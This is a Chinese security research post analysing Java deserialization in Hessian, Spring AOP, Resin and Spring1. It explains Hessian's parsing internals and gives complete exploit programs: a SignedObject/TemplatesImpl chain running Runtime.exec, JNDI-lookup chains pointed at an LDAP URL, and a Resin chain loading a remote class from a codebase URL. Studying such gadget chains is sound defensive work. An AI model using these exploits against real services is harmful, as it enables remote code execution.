# Hessian、Spring、Groovy、Rhino 反序列化浅析 - 先知社区

Hessian、Spring、Groovy、Rhino 反序列化浅析

- - -

# Hessian 反序列化

Hessian 是一种用于远程调用的二进制协议。它被广泛用于构建分布式系统中的跨平台通信，特别适用于 Java 语言，基于 RPC 协议，用于远程服务的调用。

Hessian 可以将 Java 对象序列化为二进制数据，并通过网络传输到远程系统，然后将二进制数据反序列化为远程系统可以理解的对象。通过使用二进制格式，Hessian 可以提供更高效的数据传输和更低的网络开销，相对于文本协议（如 XML 或 JSON）而言。

Hessian 支持各种 Java 基本类型和复杂对象的序列化和反序列化。它还提供了一种简单的方式定义服务接口和实现远程方法调用。因此，开发人员可以使用 Hessian 来构建基于 Java 的分布式系统，同时获得更高的性能和更好的跨平台兼容性。

Hessian 是基于`Field`机制来进行反序列化的，就是通过一些特殊的方法或者反射，直接对`Field`进行赋值，这与`Jackson`调用`getter、setter`是不同的，这种机制相对于基于`Bean`机制的攻击面要小，因为它们自动调用的方法要少。

以下是一些基于`Field`机制进行反序列化的类：

-   Java Serialization
-   Kryo
-   Hessian
-   json-io
-   XStream

下面是对`Hessian`反序列化进行简单的流程分析：

```plain
<dependency>
            <groupId>com.caucho</groupId>
            <artifactId>hessian</artifactId>
            <version>4.0.63</version>
        </dependency>
```

1、在`HessianInput#readObject`中，它会通过一个`Tag`来决定后面的操作，而`Hessian`序列化是处理成`Map`的形式，所以`code`的第一个总是`77`，也就是对应着`M`的操作，在`readType()`中，它会遍历读取反序列化传入的字节数组，读取一定的长度转成字符后存入了`_sbuf`中，再经过`toString()`转换成字符串，返回该类的完整路径，比如说`com.example.Hessian.User`。

```plain
public Object readObject()
    throws IOException
  {
    int tag = read();

    switch (tag) {
    case 'N':
      return null;

    case 'T':
      return Boolean.valueOf(true);

    case 'F':
      return Boolean.valueOf(false);

    case 'I':
      return Integer.valueOf(parseInt());

    case 'L':
      return Long.valueOf(parseLong());

    case 'D':
      return Double.valueOf(parseDouble());

    case 'd':
      return new Date(parseLong());

    case 'x':
    case 'X': {
      _isLastChunk = tag == 'X';
      _chunkLength = (read() << 8) + read();

      return parseXML();
    }

    case 's':
    case 'S': {
      _isLastChunk = tag == 'S';
      _chunkLength = (read() << 8) + read();

      int data;
      _sbuf.setLength(0);

      while ((data = parseChar()) >= 0)
        _sbuf.append((char) data);

      return _sbuf.toString();
    }

    case 'b':
    case 'B': {
      _isLastChunk = tag == 'B';
      _chunkLength = (read() << 8) + read();

      int data;
      ByteArrayOutputStream bos = new ByteArrayOutputStream();

      while ((data = parseByte()) >= 0)
        bos.write(data);

      return bos.toByteArray();
    }

    case 'V': {
      String type = readType();
      int length = readLength();

      return _serializerFactory.readList(this, length, type);
    }

    case 'M': {
      String type = readType();

      return _serializerFactory.readMap(this, type);
    }

    case 'R': {
      int ref = parseInt();

      return _refs.get(ref);
    }

    case 'r': {
      String type = readType();
      String url = readString();

      return resolveRemote(type, url);
    }

    default:
      throw error("unknown code for readObject at " + codeName(tag));
    }
  }
```

2、随后会进入到`SerializerFactory#readMap`中，会进入到`getDeserializer`方法获取反序列化器，如果获取不到，就会进入到`_hashMapDeserializer.readMap`中。

```plain
public Object readMap(AbstractHessianInput in, String type)
    throws HessianProtocolException, IOException
  {
    Deserializer deserializer = getDeserializer(type);

    if (deserializer != null)
      return deserializer.readMap(in);
    else if (_hashMapDeserializer != null)
      return _hashMapDeserializer.readMap(in);
    else {
      _hashMapDeserializer = new MapDeserializer(HashMap.class);

      return _hashMapDeserializer.readMap(in);
    }
  }
```

3、在`getDeserializer`中，它会判断是否前面获取不到`type`，是则返回`null`，然后会从缓存中获取对应`type`的反序列化器，如果获取不到，会从`_staticTypeMap`中获取，都获取不到，则判断 `type` 是不是数组，是就根据数组基本类型来获取其 `Deserializer`，并创建 `ArrayDeserializer` 返回，否则尝试通过目标 `type` 的 `clazz` 形式来获取`deserializer`放到缓存里面。一般的类如果使用了不安全的`Serializer`，会获取到`UnsafeDeserilize`。

```plain
public Deserializer getDeserializer(String type)
    throws HessianProtocolException
  {
    if (type == null || type.equals(""))
      return null;

    Deserializer deserializer;

    if (_cachedTypeDeserializerMap != null) {
      synchronized (_cachedTypeDeserializerMap) {
        deserializer = (Deserializer) _cachedTypeDeserializerMap.get(type);
      }

      if (deserializer != null)
        return deserializer;
    }


    deserializer = (Deserializer) _staticTypeMap.get(type);
    if (deserializer != null)
      return deserializer;

    if (type.startsWith("[")) {
      Deserializer subDeserializer = getDeserializer(type.substring(1));

      if (subDeserializer != null)
        deserializer = new ArrayDeserializer(subDeserializer.getType());
      else
        deserializer = new ArrayDeserializer(Object.class);
    }
    else {
      try {
        //Class cl = Class.forName(type, false, getClassLoader());
        Class cl = loadSerializedClass(type).
        deserializer = getDeserializer(cl);
      } catch (Exception e) {
        log.warning("Hessian/Burlap: '" + type + "' is an unknown class in " + getClassLoader() + ":\n" + e);

        log.log(Level.FINER, e.toString(), e);
      }
    }

    if (deserializer != null) {
      if (_cachedTypeDeserializerMap == null)
        _cachedTypeDeserializerMap = new HashMap(8);
      synchronized (_cachedTypeDeserializerMap) {
        _cachedTypeDeserializerMap.put(type, deserializer);
      }
    }
    return deserializer;
  }
```

4、进入到`readMap`后，会通过`sun.misc.Unsafe#allocateInstance`初始化一个空对象，然后再调用`readMap`

```plain
public Object readMap(AbstractHessianInput in)
    throws IOException
  {
    try {
      Object obj = instantiate();

      return readMap(in, obj);
    } catch (IOException e) {
      throw e;
    } catch (RuntimeException e) {
      throw e;
    } catch (Exception e) {
      throw new IOExceptionWrapper(_type.getName() + ":" + e.getMessage(), e);
    }
  }
```

5、将它加入到引用当中，便于用引用来寻找值，然后通过 while 循环来对值进行恢复，会从`_fieldMap`中通过键获取对应的`Deserializer`，要注意的是这里不包含`transient`修饰的成员，再根据获取到的`Deserializer`进入到不同类的`deserialize`方法中，比如`ObjectFieldDeserializer`会进入`ObjectFieldDeserializer#deserialize`中，`FieldDeserializer2`中一共有 14 个`unsafe`的反序列化器。

```plain
public Object readMap(AbstractHessianInput in, Object obj)
    throws IOException
  {
    try {
      int ref = in.addRef(obj);

      while (! in.isEnd()) {
        Object key = in.readObject();

        FieldDeserializer2 deser = (FieldDeserializer2) _fieldMap.get(key);

        if (deser != null)
          deser.deserialize(in, obj);
        else
          in.readObject();
      }

      in.readMapEnd();

      Object resolve = resolve(in, obj);

      if (obj != resolve)
        in.setRef(ref, resolve);

      return resolve;
    } catch (IOException e) {
      throw e;
    } catch (Exception e) {
      throw new IOExceptionWrapper(e);
    }
  }
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122222538-1d68c182-b932-1.png)

6、进入到`deserialize`后，又会触发`HessianInput#readObject`进行反序列化。

```plain
public void deserialize(AbstractHessianInput in, Object obj)
      throws IOException
    {
      Object value = null;

      try {
        value = in.readObject(_field.getType());

        _unsafe.putObject(obj, _offset, value);
      } catch (Exception e) {
        logDeserializeError(_field, obj, value, e);
      }
    }
  }
```

7、因为序列化成`Map`的形式，因此还是进入`M`中，获取到`type`会空后，会进入到`MapDeserializer#readMap`中。

```plain
public Object readObject(Class cl)
    throws IOException
  {
    if (cl == null || cl == Object.class)
      return readObject();

    int tag = read();

    switch (tag) {
    case 'N':
      return null;

    case 'M':
    {
      String type = readType();
      if ("".equals(type)) {
        Deserializer reader;
        reader = _serializerFactory.getDeserializer(cl);

        return reader.readMap(this);
      }
      else {
        Deserializer reader;
        reader = _serializerFactory.getObjectDeserializer(type);

        return reader.readMap(this);
      }
    }

    case 'V':
    {
      String type = readType();
      int length = readLength();

      Deserializer reader;
      reader = _serializerFactory.getObjectDeserializer(type);

      if (cl != reader.getType() && cl.isAssignableFrom(reader.getType()))
        return reader.readList(this, length);

      reader = _serializerFactory.getDeserializer(cl);

      Object v = reader.readList(this, length);

      return v;
    }

    case 'R':
    {
      int ref = parseInt();

      return _refs.get(ref);
    }

    case 'r':
    {
      String type = readType();
      String url = readString();

      return resolveRemote(type, url);
    }
    }

    _peek = tag;
    Object value = _serializerFactory.getDeserializer(cl).readObject(this);

    return value;
  }
```

8、在`MapDeserializer#readMap`里面，会对`map`的类型进行判断，如果是`Map`则使用`HashMap`，`SortedMap`则使用`TreeMap()`，接着进入了一个 `while` 循环，它会读取 `key-value` 的键值对并调用 `put` 方法，这里的`put`方法老生常谈了，会触发任意类的`hashcode()`方法，至此，只要是入口为`hashCode`都能够使用。

```plain
public Object readMap(AbstractHessianInput in)
    throws IOException
  {
    Map map;

    if (_type == null)
      map = new HashMap();
    else if (_type.equals(Map.class))
      map = new HashMap();  //hashCode()、equals()
    else if (_type.equals(SortedMap.class))
      map = new TreeMap(); //触发compareTo()方法
    else {
      try {
        map = (Map) _ctor.newInstance();
      } catch (Exception e) {
        throw new IOExceptionWrapper(e);
      }
    }

    in.addRef(map);
    while (! in.isEnd()) {
      map.put(in.readObject(), in.readObject());
    }
    in.readEnd();
    return map;
  }
```

要使用`Hessian`条件如下：

-   kick-off chain 起始方法只能为 hashCode/equals/compareTo 方法；
-   利用链中调用的成员变量不能为 transient 修饰；
-   所有的调用不依赖类中 readObject 的逻辑，也不依赖 getter/setter 的逻辑。

在`Hessian`中，有一个十分魔幻的地方，就是它支持反序列化任意类，并且无需实现`Serializable`接口，使得没有实现`Serializable`接口的类也可以序列化和反序列化，只需要将`_isAllowNonSerializable=true`即可，可以设置`SerializerFactory#setAllowNonSerializable`来赋值。

```plain
public class SerializerFactory extends AbstractSerializerFactory {
    protected Serializer getDefaultSerializer(Class cl) {
        if (this._defaultSerializer != null) {
            return this._defaultSerializer;
        } else if (!Serializable.class.isAssignableFrom(cl) && !this._isAllowNonSerializable) {
            throw new IllegalStateException("Serialized class " + cl.getName() + " must implement java.io.Serializable");
        } else {
            return (Serializer)(this._isEnableUnsafeSerializer && JavaSerializer.getWriteReplace(cl) == null ? UnsafeSerializer.create(cl) : JavaSerializer.create(cl));
        }
    }
    }
```

## TemplatesImpl

首先考虑一下动态字节码加载的打法，但是明显是不行的，因为`TemplatesImpl`中的`_tfactory`是一个`transient`，无法参与序列化与反序列化，因此可以采取二次反序列化的打法，就是上文的`ROME`中的`SignedObject`链。

调用链如下：

```plain
hessianinput.readObject()->
    hashmap.put()->
        EqualsBean.hashcode()->
            ToStringBean.toString()->
                SignedObject.getObject()->
                        hashmap.readObject()->后面的利用链
```

exp 如下：

```plain
package com.example.Hessian;

import cn.hutool.core.lang.hash.Hash;
import com.caucho.hessian.io.HessianInput;
import com.caucho.hessian.io.HessianOutput;
import com.example.jackson.TemplateImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.rowset.JdbcRowSetImpl;
import com.sun.syndication.feed.impl.EqualsBean;
import com.sun.syndication.feed.impl.ToStringBean;
import javassist.CannotCompileException;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.NotFoundException;
import javax.xml.transform.Templates;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.lang.reflect.Field;
import java.security.KeyPair;
import java.security.KeyPairGenerator;
import java.security.Signature;
import java.security.SignedObject;
import java.util.Base64;
import java.util.HashMap;

public class hessian_signobject {
    public static void main(String[] args) throws Exception {
        byte[] code =getTemplates();
        byte[][] codes={code};
        TemplatesImpl templates=new TemplatesImpl();
        setValue(templates,"_tfactory",new TransformerFactoryImpl());
        setValue(templates,"_name","Aiwin");
        setValue(templates,"_class",null);
        setValue(templates,"_bytecodes",codes);
        ToStringBean toStringBean=new ToStringBean(Templates.class,templates);
        EqualsBean equalsBean=new EqualsBean(String.class,"aiwin");
        HashMap hashMap=new HashMap();
        hashMap.put(equalsBean,"aaa");
        setValue(equalsBean,"_beanClass",ToStringBean.class);
        setValue(equalsBean,"_obj",toStringBean);

        //SignedObject
        KeyPairGenerator kpg = KeyPairGenerator.getInstance("DSA");
        kpg.initialize(1024);
        KeyPair kp = kpg.generateKeyPair();
        SignedObject signedObject = new SignedObject(hashMap, kp.getPrivate(), Signature.getInstance("DSA"));
        ToStringBean toStringBean_sign=new ToStringBean(SignedObject.class,signedObject);
        EqualsBean equalsBean_sign=new EqualsBean(String.class,"aiwin");
        HashMap hashMap_sign=new HashMap();
        hashMap_sign.put(equalsBean_sign,"aaa");
        setValue(equalsBean_sign,"_beanClass",ToStringBean.class);
        setValue(equalsBean_sign,"_obj",toStringBean_sign);
        String result=Hessian_serialize(hashMap_sign);
        Hessian_unserialize(result);

    }
    public static void setValue(Object obj, String name, Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj, value);
    }
    public static byte[] getTemplates() throws IOException, CannotCompileException, NotFoundException {
        ClassPool classPool=ClassPool.getDefault();
        CtClass ctClass=classPool.makeClass("Test");
        ctClass.setSuperclass(classPool.get("com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet"));
        String block = "Runtime.getRuntime().exec(\"calc\");";
        ctClass.makeClassInitializer().insertBefore(block);
        return ctClass.toBytecode();
    }
    public static String Hessian_serialize(Object object) throws IOException {
        ByteArrayOutputStream byteArrayOutputStream=new ByteArrayOutputStream();
        HessianOutput hessianOutput=new HessianOutput(byteArrayOutputStream);
        hessianOutput.writeObject(object);
        return Base64.getEncoder().encodeToString(byteArrayOutputStream.toByteArray());
    }

    public static void Hessian_unserialize(String obj) throws IOException {
        byte[] code=Base64.getDecoder().decode(obj);
        ByteArrayInputStream byteArrayInputStream=new ByteArrayInputStream(code);
        HessianInput hessianInput=new HessianInput(byteArrayInputStream);
        hessianInput.readObject();
    }
}
```

> 同样 JdbcRowSetImpl 等常规链子也是可以的

## Spring AOP

利用链

```plain
Hessian#readObject()->
    hashMap.putVal()->
        hotSwappableTargetSource#equals()->
            AbstractPointcutAdvisor#equals()->
                AbstractBeanFactoryPointcutAdvisor#getAdvice()
                    SimpleJndiBeanFactory#getBean()->
                        lookup()
```

在自己写这条链的时候，也是在不断的报错，因为发现它里面利用的很多类都没有继承`Serializable`接口，导致无法序列化和反序列化，并且似乎并没有找到绕过去的方式，包括`SimpleJndiBeanFactory`，后来看了一下`marshalsec`，后来才知道`Hessian`可以不需要继承序列化和反序列化的。

```plain
package com.example.Hessian;

import com.caucho.hessian.io.HessianInput;
import com.caucho.hessian.io.HessianOutput;
import com.caucho.hessian.io.SerializerFactory;
import org.springframework.aop.support.*;
import org.springframework.aop.target.HotSwappableTargetSource;
import org.springframework.jndi.support.SimpleJndiBeanFactory;
import org.springframework.scheduling.annotation.AsyncAnnotationAdvisor;

import java.io.*;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.HashMap;

public class springaop {
    public static void main(String[] args) throws Exception {
        String jndiUrl = "ldap://127.0.0.1:9999/siJdcpuR";
        SimpleJndiBeanFactory simpleJndiBeanFactory = new SimpleJndiBeanFactory();
        simpleJndiBeanFactory.setShareableResources(jndiUrl);//这里一定要设置，为了过 Singleton()

        Class<?> AbstractBeanFactoryPointcutAdvisor = Class.forName("org.springframework.aop.support.AbstractBeanFactoryPointcutAdvisor");
        DefaultBeanFactoryPointcutAdvisor defaultBeanFactoryPointcutAdvisor = new DefaultBeanFactoryPointcutAdvisor();
        Field adviceBeanName = AbstractBeanFactoryPointcutAdvisor.getDeclaredField("adviceBeanName");
        adviceBeanName.setAccessible(true);
        adviceBeanName.set(defaultBeanFactoryPointcutAdvisor, jndiUrl);
        Field beanFactory = AbstractBeanFactoryPointcutAdvisor.getDeclaredField("beanFactory");
        beanFactory.setAccessible(true);
        beanFactory.set(defaultBeanFactoryPointcutAdvisor, simpleJndiBeanFactory);

        AsyncAnnotationAdvisor asyncAnnotationAdvisor = new AsyncAnnotationAdvisor();
        HotSwappableTargetSource hotSwappableTargetSource = new HotSwappableTargetSource(1);
        HotSwappableTargetSource hotSwappableTargetSource1 = new HotSwappableTargetSource(2);
        HashMap hashMap = new HashMap();
        hashMap.put(hotSwappableTargetSource, "1");
        hashMap.put(hotSwappableTargetSource1, "2");
        setFieldValue(hotSwappableTargetSource,"target",defaultBeanFactoryPointcutAdvisor);
        setFieldValue(hotSwappableTargetSource1,"target",asyncAnnotationAdvisor);
        String result=Hessian_serialize(hashMap);
        Hessian_unserialize(result);
    }
    public static String Hessian_serialize(Object object) throws IOException {
        ByteArrayOutputStream byteArrayOutputStream=new ByteArrayOutputStream();
        HessianOutput hessianOutput=new HessianOutput(byteArrayOutputStream);
        SerializerFactory serializerFactory=new SerializerFactory(); //无需继承Serializable也可进行序列化和反序列化
        serializerFactory.setAllowNonSerializable(true);
        hessianOutput.setSerializerFactory(serializerFactory);
        hessianOutput.writeObject(object);
        return Base64.getEncoder().encodeToString(byteArrayOutputStream.toByteArray());
    }

    public static void Hessian_unserialize(String obj) throws IOException, ClassNotFoundException {
        byte[] code=Base64.getDecoder().decode(obj);
        ByteArrayInputStream byteArrayInputStream=new ByteArrayInputStream(code);
        HessianInput hessianInput=new HessianInput(byteArrayInputStream);
        hessianInput.readObject();
    }
    public static void setFieldValue(Object object, String field, Object value) throws NoSuchFieldException, IllegalAccessException {
        Field dfield=object.getClass().getDeclaredField(field);
        dfield.setAccessible(true);
        dfield.set(object,value);
    }
}
```

简单解析：

在`SimpleJndiBeanFactory#getBean`中存在能够调用`lookup`接口。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122222609-2f773cb4-b932-1.png)

这里仅需要初始化`beanFactory=SimpleJndiBeanFactory`，同时`adviceBeanName`可控，通过`setShareableResources`可过掉`isSingleton`判断即可触发`getBean`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122222626-3a1302ca-b932-1.png)

在`AbstractPointcutAdvisor#equals`方法中，存在可以触发`getAdvice()`的点，并且`otherAdvice`可控，至于`equals`可通过`HashCode#puVal`触发，整条链就串起来了。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122222635-3f211bb2-b932-1.png)

## PartiallyComparableAdvisorHolder

```plain
Hessian#readObject()->
    hashMap.putVal()->
        hotSwappableTargetSource#equals()->
            Xstring#equals()->
                PartiallyComparableAdvisorHolder#toString()->
                    AspectJPointcutAdvisor#getOrder()->
                        AbstractAspectJAdvice#getOrder()->
                            BeanFactoryAspectInstanceFactory#getOrder()->
                                SimpleJndiBeanFactory#getType()->
                                    SimpleJndiBeanFactory#doGetType()->
                                        SimpleJndiBeanFactory#doGetSingleton()->
                                            SimpleJndiBeanFactory#lookup()->JndiTemplate#lookup()
```

exp:

```plain
public static void main(String[] args) throws ClassNotFoundException, NoSuchMethodException, InvocationTargetException, InstantiationException, IllegalAccessException, NoSuchFieldException, IOException {
        String jndiUrl = "ldap://127.0.0.1:9999/siJdcpuR";
        SimpleJndiBeanFactory simpleJndiBeanFactory=new SimpleJndiBeanFactory();
        simpleJndiBeanFactory.setShareableResources(jndiUrl);

        AspectInstanceFactory beanFactoryAspectInstanceFactory=createWithoutConstructor(BeanFactoryAspectInstanceFactory.class);
        setFieldValue(beanFactoryAspectInstanceFactory,"beanFactory",simpleJndiBeanFactory);
        setFieldValue(beanFactoryAspectInstanceFactory,"name",jndiUrl);

        AbstractAspectJAdvice advice = createWithoutConstructor(AspectJAfterAdvice.class);

        Class<?> abstractAspectJAdvice= Class.forName("org.springframework.aop.aspectj.AbstractAspectJAdvice");
        Field aspectInstanceFactory=abstractAspectJAdvice.getDeclaredField("aspectInstanceFactory");
        aspectInstanceFactory.setAccessible(true);
        aspectInstanceFactory.set(advice,beanFactoryAspectInstanceFactory);

        AspectJPointcutAdvisor aspectJPointcutAdvisor=createWithoutConstructor(AspectJPointcutAdvisor.class);
        setFieldValue(aspectJPointcutAdvisor,"advice",advice);

        Class<?> PartiallyComparableAdvisorHolder=Class.forName("org.springframework.aop.aspectj.autoproxy.AspectJAwareAdvisorAutoProxyCreator$PartiallyComparableAdvisorHolder");
        Object Partially=createWithoutConstructor(PartiallyComparableAdvisorHolder);
        setFieldValue(Partially,"advisor",aspectJPointcutAdvisor);
        HotSwappableTargetSource hotSwappableTargetSource = new HotSwappableTargetSource(new XString("1"));
        HotSwappableTargetSource hotSwappableTargetSource1 = new HotSwappableTargetSource(new XString("a"));
        HashMap hashMap = new HashMap();
        hashMap.put(hotSwappableTargetSource, "1");
        hashMap.put(hotSwappableTargetSource1, "2");
        setFieldValue(hotSwappableTargetSource,"target",Partially);
        String result=Hessian_serialize(hashMap);
        Hessian_unserialize(result);
    }
```

简单分析：

首先在`SimpleJndiBeanFactory#doGetSingleton`中存在`lookup`接口，在同一个类中`SimpleJndiBeanFactory#getType()`可以调用到`doGetSingleton`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122222705-5146f956-b932-1.png)

`BeanFactoryAspectInstanceFactory#getOrder()`中，存在着可控`beanFactory和name`能够调用`getType`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122222716-576cce28-b932-1.png)

`AbstractAspectJAdvice#getOrder()`能够调用`BeanFactoryAspectInstanceFactory#getOrder()`，因为`aspectInstanceFactory`是可控的，但是要注意这里是抽象类，要找子类都实例化传值。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122222738-64eda8f6-b932-1.png)

`AspectJPointcutAdvisor#getOrder()`可以触发`AbstractAspectJAdvice#getOrder()`，只需要在构造函数初始化`advice=AbstractAspectJAdvice`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122222811-78472a58-b932-1.png)

最后在`AspectJAwareAdvisorAutoProxyCreator`中找到子类`PartiallyComparableAdvisorHolder#toString`，可以调用`AspectJPointcutAdvisor#getOrder()`，然后`toString()`完全可以通过`Xstring`类来触发。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122222825-80a375d0-b932-1.png)

## Resin

引入依赖，这里引入的依赖版本好像要正确，否则会报错显示`com.caucho.Naming`不存在，至于每个版本的对应，我也不清楚。：

```plain
<dependency>
            <groupId>com.caucho</groupId>
            <artifactId>resin</artifactId>
            <version>4.0.64</version>
        </dependency>
```

```plain
Xstring#equals()->
Qname#toString()->
ContinuationContext#composeName()->
ContinuationContext#getTargetContext()->
NamingManager#getContext()->
NamingManager#getObjectInstance()->
NamingManager#getObjectFactoryFromReference()->
loadClass()
```

exp:

```plain
package com.example.Hessian;

import com.caucho.hessian.io.HessianInput;
import com.caucho.hessian.io.HessianOutput;
import com.caucho.hessian.io.SerializerFactory;
import com.caucho.naming.QName;
import com.sun.org.apache.xpath.internal.objects.XString;

import javax.naming.*;
import javax.naming.directory.DirContext;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.lang.reflect.Array;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationTargetException;
import java.util.Base64;
import java.util.HashMap;
import java.util.Hashtable;

public class Resin {
    public static void main(String[] args) throws ClassNotFoundException, NoSuchMethodException, InvocationTargetException, InstantiationException, IllegalAccessException, IOException, NoSuchFieldException {
        String codebase="http://127.0.0.1:9999/";
        String clazz="siJdcpuR";

        Class<?> ccCl = Class.forName("javax.naming.spi.ContinuationContext");
        Constructor<?> ccCons = ccCl.getDeclaredConstructor(CannotProceedException.class, Hashtable.class);
        ccCons.setAccessible(true);
        CannotProceedException cpe = new CannotProceedException();
        cpe.setResolvedObj(new Reference("siJdcpuR", clazz,codebase));
        Context ctx = (Context) ccCons.newInstance(cpe, new Hashtable<>());
        QName qName = new QName(ctx,"aiwin","aiwin1"); //_items要过for循环
        String unhash = unhash(qName.hashCode()); //将哈希值转换回原始数据的算法,放入到Xstring的值中,为了p.hash == hash
        XString xString = new XString(unhash);


        HashMap<Object, Object> hashMap = new HashMap<>();
        setFieldValue(hashMap, "size", 2);
        Class<?> nodeC;
        nodeC = Class.forName("java.util.HashMap$Node");
        Constructor<?> nodeCons = nodeC.getDeclaredConstructor(int.class, Object.class, Object.class, nodeC);
        nodeCons.setAccessible(true);
        Object tbl = Array.newInstance(nodeC, 2);
        Array.set(tbl, 0, nodeCons.newInstance(0, qName, qName, null));
        Array.set(tbl, 1, nodeCons.newInstance(0, xString, xString, null));
        setFieldValue(hashMap, "table", tbl);
        String result=Hessian_serialize(hashMap);
        Hessian_unserialize(result);


    }
    private static void unhash0(StringBuilder partial, int target) {
        int div = target / 31;
        int rem = target % 31;
        if (div <= 65535) {
            if (div != 0)
                partial.append((char)div);
            partial.append((char)rem);
        } else {
            unhash0(partial, div);
            partial.append((char)rem);
        }
    }
    public static String unhash ( int hash ) {
        int target = hash;
        StringBuilder answer = new StringBuilder();
        if (target < 0) {
            answer.append("\\u0915\\u0009\\u001e\\u000c\\u0002");
            if (target == Integer.MIN_VALUE)
                return answer.toString();
            target = target & Integer.MAX_VALUE;
        }
        unhash0(answer, target);
        return answer.toString();
    }
    public static String Hessian_serialize(Object object) throws IOException {
        ByteArrayOutputStream byteArrayOutputStream=new ByteArrayOutputStream();
        HessianOutput hessianOutput=new HessianOutput(byteArrayOutputStream);
        SerializerFactory serializerFactory=new SerializerFactory();
        serializerFactory.setAllowNonSerializable(true);
        hessianOutput.setSerializerFactory(serializerFactory);
        hessianOutput.writeObject(object);
        return Base64.getEncoder().encodeToString(byteArrayOutputStream.toByteArray());
    }

    public static void Hessian_unserialize(String obj) throws IOException, ClassNotFoundException {
        byte[] code=Base64.getDecoder().decode(obj);
        ByteArrayInputStream byteArrayInputStream=new ByteArrayInputStream(code);
        HessianInput hessianInput=new HessianInput(byteArrayInputStream);
        hessianInput.readObject();
    }
    public static void setFieldValue(Object object, String field, Object value) throws NoSuchFieldException, IllegalAccessException {
        Field dfield=object.getClass().getDeclaredField(field);
        dfield.setAccessible(true);
        dfield.set(object,value);
    }
}
```

简单分析：

漏洞的触发点在`NamingManager#getObjectFactoryFromReference`中，只需要控制`Reference`为恶意的`factoryLocation`即可通过`loadClass`加载类并在后面通过`newInstance`实例化，在`NamingManager#getContext`中可以直接触发这个方法。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122222949-b30f6d30-b932-1.png)

`ContinuationContext#getTargetContext()`中能够触发`NamingManager.getContext()`，前提是`CannotProceedException#getResolvedObj()`要有值，这个值就是后面要用到的`Reference()`，因为可以通过`setResolvedObj()`进去，要注意的是`ContinuationContext`是直接通过`class`修饰的，只能在同一个包中被访问，不能直接实例化，要通过反射进行构造。`getTargetContext()`在本类的`composeName`可触发。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122222932-a8bff458-b932-1.png)

`Qname#toString()`中可以触发`composeName()`，因为`_context`可以直接实例化控制，要过`for`循环需要往`_items`里面加数据即可。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122223000-b985ffc6-b932-1.png)

# Spring1 反序列化

`spring1`和`spring2`反序列化链子都比较局限，只局限于`spring-core、spring-beans`中的`4.1.4 RELEASE`版本，参考`su18`师傅的文章，发现这两条链子将动态代理玩的明明白白的，下面是链子的简单分析：

首先来分析跟动态代理有关的`AnnotationInvocationHandler`类，里面的`invoke()`方法，调用被代理类的任意方法都会触发`AnnotationInvocationHandler`的`invoke`方法。

```plain
private final Class<? extends Annotation> type;
    private final Map<String, Object> memberValues;

    AnnotationInvocationHandler(Class<? extends Annotation> var1, Map<String, Object> var2) {
        Class[] var3 = var1.getInterfaces();
        if (var1.isAnnotation() && var3.length == 1 && var3[0] == Annotation.class) {
            this.type = var1;
            this.memberValues = var2;
        } else {
            throw new AnnotationFormatError("Attempt to create proxy for a non-annotation type.");
        }
    }

    public Object invoke(Object var1, Method var2, Object[] var3) {
        String var4 = var2.getName();
        Class[] var5 = var2.getParameterTypes();
        if (var4.equals("equals") && var5.length == 1 && var5[0] == Object.class) {
            return this.equalsImpl(var3[0]);
        } else if (var5.length != 0) {
            throw new AssertionError("Too many parameters for an annotation method");
        } else {
            byte var7 = -1;
            switch(var4.hashCode()) {
            case -1776922004:
                if (var4.equals("toString")) {
                    var7 = 0;
                }
                break;
            case 147696667:
                if (var4.equals("hashCode")) {
                    var7 = 1;
                }
                break;
            case 1444986633:
                if (var4.equals("annotationType")) {
                    var7 = 2;
                }
            }

            switch(var7) {
            case 0:
                return this.toStringImpl();
            case 1:
                return this.hashCodeImpl();
            case 2:
                return this.type;
            default:
                Object var6 = this.memberValues.get(var4);
                if (var6 == null) {
                    throw new IncompleteAnnotationException(this.type, var4);
                } else if (var6 instanceof ExceptionProxy) {
                    throw ((ExceptionProxy)var6).generateException();
                } else {
                    if (var6.getClass().isArray() && Array.getLength(var6) != 0) {
                        var6 = this.cloneArray(var6);
                    }

                    return var6;
                }
            }
        }
    }
```

> 关键看`default`中`Object var6 = this.memberValues.get(var4);`，当函数传入的`method`不等于`equals`并且所需的参数不为`1`，同时`methond` 不是`toString() hashCode() annotationType()`方法并且所需的参数不为 0，就会进去`default`里面，从`memberValues`中取值，而`memberValues`是一个`Map`即`Key-Value`的形式，最终通过`key`将`Value`返回。

再看`SerializableTypeWrapper#MethodInvokeTypeProvider`类，这是抽象类里面的一个子类，里面的`readObject()`存在反射调用，这也是`spring1`链子的反序列化入口点。

```plain
static class MethodInvokeTypeProvider implements TypeProvider {
        private final TypeProvider provider;
        private final String methodName;
        private final int index;
        private transient Object result;

        public MethodInvokeTypeProvider(TypeProvider provider, Method method, int index) {
            this.provider = provider;
            this.methodName = method.getName();
            this.index = index;
            this.result = ReflectionUtils.invokeMethod(method, provider.getType());
        }
        @Override
        public Type getType() {
            if (this.result instanceof Type || this.result == null) {
                return (Type) this.result;
            }
            return ((Type[])this.result)[this.index];
        }
        private void readObject(ObjectInputStream inputStream) throws IOException, ClassNotFoundException {
            inputStream.defaultReadObject();
            Method method = ReflectionUtils.findMethod(this.provider.getType().getClass(), this.methodName);
            this.result = ReflectionUtils.invokeMethod(method, this.provider.getType());
        }
    }
```

